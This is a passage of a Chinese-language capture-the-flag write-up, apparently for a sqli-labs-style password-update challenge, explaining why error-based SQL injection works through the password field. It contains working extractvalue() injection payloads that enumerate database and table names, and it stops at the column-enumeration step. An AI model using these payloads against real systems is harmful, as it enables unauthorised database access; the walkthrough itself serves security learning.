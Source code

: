 可以看到这里进行查询的语句是"SELECT username, password FROM users WHERE username= $uname LIMIT 0,1"。
进行更改密码的语句是"UPDATE users SET password = '$passwd' WHERE username='$row1'"。

总览代码全文，发现，虽然查询和更新语句我们能对更新语句（看下文）进行注入，但是，查询和更新语句的结果不会回显，说白了就是注了也白注。

但是也可以发现，代码是回给我们返回报错信息的，那我们就可以进行报错注入。

因为代码中$row和$row1一定要存在，才能进行更新语句，并且能返回报错。所以用户名一定要存在，使查询语句返回数据（用户名：DUMB），以及我们不能从查询语句注入，只能从更新语句"UPDATE users SET password = '$passwd' WHERE username='$row1'"注入，并且注入点是$passwd。
![c68209535e66d03ffc4fa98e0c57d2d4](./img/c68209535e66d03ffc4fa98e0c57d2d4.png)

很容易看出闭合是单引号`'`，更新语句注入点前不是select语句，回显位可以不用管。

放一张思维导图里面对报错注入的归整：

![80c731e1fd8d44540abade0c29412796](./img/80c731e1fd8d44540abade0c29412796.png)



+ 爆库

~~~ shell
uname=DUMB&passwd=123456' and extractvalue(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata),0x7e))--+&submit=Submit
~~~



+ 爆表

~~~ shell
uname=DUMB&passwd=123456' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='ctfshow'),0x7e))--+&submit=Submit
~~~



+ 爆列
